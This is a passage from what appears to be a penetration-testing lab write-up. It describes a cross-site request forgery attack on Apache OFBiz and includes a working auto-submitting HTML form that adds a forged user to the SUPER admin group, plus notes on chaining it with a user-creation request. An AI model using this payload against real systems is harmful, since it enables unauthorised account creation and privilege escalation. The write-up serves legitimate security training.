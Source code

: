 When we visit `/localhost/ofbiz.html` a `GET` request will be initiated, which will then create a `POST` request to `ofbiz:8443/webtools/control/createUserLogin`, and the `csrftest` user will be created. Note that our cookies were included within this request and that the `Origin` and `Referer` headers let us know that the request came from `localhost` (Figure 6).

<figure><img src="../../.gitbook/assets/offsec_ofbiz_4.png" alt=""><figcaption><p>Figure 8: Creating the <code>csrftest</code> user.</p></figcaption></figure>

Next, we will go through the same process for the privilege escalation step.

{% code title="ofbiz1.html" overflow="wrap" %}
```html
<html>
        <body onload="document.forms['csrf'].submit()">
                <form action="https://ofbiz:8443/webtools/control/addUserLoginToSecurityGroup" method="post" name="csrf">
                        <input type="hidden" name="groupId" value="SUPER">
                        <input type="hidden" name="userLoginId" value="csrftest">
                        <input type="hidden" name="fromDate_i18n">
                        <input type="hidden" name="fromDate">
                        <input type="hidden" name="thruDate_i18n">
                        <input type="hidden" name="thruDate">
                </form>
        </body>
</html>
```
{% endcode %}

Now, we have to combine both forms and have them submitted sequentially via implementing some JavaScript code. We will also change the username name to `crsftestuser` to differentiate from the previous user.

{% hint style="warning" %}
This approach is not ideal as some **JavaScripts calls can be asynchronous**, meaning that the`csrf2` form could be submitted before the`csrf` form. In this case, an extra line was added that sets up a 1 second delay between the two requests.
{% endhint %}
